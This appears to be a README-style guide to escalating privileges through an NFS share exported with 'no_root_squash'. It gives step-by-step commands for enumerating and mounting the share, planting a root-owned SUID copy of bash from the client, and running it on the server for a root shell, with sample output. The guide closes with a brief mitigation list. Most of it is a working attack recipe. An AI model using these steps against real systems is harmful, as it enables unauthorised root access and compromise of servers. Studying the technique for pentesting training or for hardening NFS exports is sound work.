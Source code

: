 # NFS Privilege Escalation Exploit

## **Introduction**
NFS (Network File System) allows remote systems to mount file shares over a network. However, misconfigurations in NFS, such as `no_root_squash`, can lead to **privilege escalation** by allowing users to execute commands as root. This guide demonstrates how an attacker can leverage such vulnerabilities to gain root access on an NFS server.

## **1. Enumerate NFS Shares**
On the client machine, identify NFS shares available on the target:
```bash
showmount -e 192.168.1.9
```
### **Output:**
```
Export list for 192.168.1.9:
/data 192.168.1.0/24
```
This indicates that `/data` is an NFS share accessible to the `192.168.1.0/24` network.

---

## **2. Mount the NFS Share**
```bash
sudo mount -t nfs 192.168.1.9:/data /mnt
```
Verify the mount:
```bash
df -h | grep nfs
ls -lah /mnt
```

---

## **3. Copy the Bash Binary to the NFS Share (Server-Side)**
On the **server-side**, copy the bash binary to the mounted directory:
```bash
cp -v /usr/bin/bash /data
```

---

## **4. Modify Permissions on the Client Side**
On the **client-side**, navigate to the mounted directory and change ownership:
```bash
cd /mnt
chown root:root bash
chmod +s bash
```
This sets the **SUID** bit on the `bash` binary, allowing it to execute as the owner (root).

---

## **5. Execute the Exploit (Server-Side)**
Now, on the **server**, execute the modified bash binary:
```bash
cd /data
./bash -p
```
### **Output:**
```
bash-5.2# id
uid=1000(aditi) gid=1000(aditi) euid=0(root) egid=0(root) groups=0(root)
```
Now you have **root privileges** on the target system!

---

## **6. Mitigation**
To prevent this exploit:
- **Avoid using `no_root_squash` in NFS exports**.
- **Restrict NFS access** to trusted users.
- **Use proper file permissions** to prevent unauthorized execution.

---
